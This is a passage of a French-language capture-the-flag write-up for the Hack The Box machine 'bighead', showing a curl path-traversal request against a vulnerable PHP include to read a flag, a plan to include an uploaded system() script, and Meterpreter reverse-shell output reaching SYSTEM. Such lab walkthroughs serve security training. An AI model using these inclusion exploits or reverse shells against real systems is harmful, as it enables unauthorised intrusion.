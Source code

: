 ```php
require_once('attachments.inc.php');                                                                                                                                                          
require_once('requirements.inc.php');                                                                                                                                                         
require_once('testcase.class.php');                                                                                                                                                           
require_once('testproject.class.php');                                                                                                                                                        
require_once('users.inc.php');                                                                                                                                                                
require_once($PiperCoinAuth);                                                                                                                                                                 
testlinkInitPage($db, true);
```

On peut exploiter la vulnérabilité pour obtenir enfin le premier flag :  

```bash
curl -X POST http://code.bighead.htb/testlink/linkto.php --data "PiperID=set&PiperCoinID=../../../user.txt"
```

Comme à ce stade on ne dispose toujours pas de *vrai* exécution de commande, il faut pouvoir passer à *require\_once()* un script PHP à nous.  

Et ce n'est pas si facile car la plupart des [wrappers](https://secure.php.net/manual/en/wrappers.php) ont été désactivés (http, ftp, php, data).  

La solution adoptée a consisté à placer le script PHP (qui fait juste un *system()*) dans *C:\Users\Public\Downloads\*.  

```plain
[*] Started reverse TCP handler on 10.10.14.240:80
[*] Sending stage (179783 bytes) to 10.10.10.112
[*] Meterpreter session 621 opened (10.10.14.240:80 -> 10.10.10.112:49477) at 2018-12-15 11:56:50 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Avec des droits pareils on se dit qu'on en a enfin finit mais en fait non...  

```plain
meterpreter > cat root.txt

                    * * *

              Gilfoyle's Prayer

___________________6666666___________________
____________66666__________66666_____________
_________6666___________________666__________
_______666__6____________________6_666_______
_____666_____66_______________666____66______
____66_______66666_________66666______666____
___66_________6___66_____66___66_______666___
__66__________66____6666_____66_________666__
_666___________66__666_66___66___________66__
_66____________6666_______6666___________666_
_66___________6666_________6666__________666_
_66________666_________________666_______666_
_66_____666______66_______66______666____666_
_666__666666666666666666666666666666666__66__
__66_______________6____66______________666__
___66______________66___66_____________666___
____66______________6__66_____________666____
_______666___________666___________666_______
```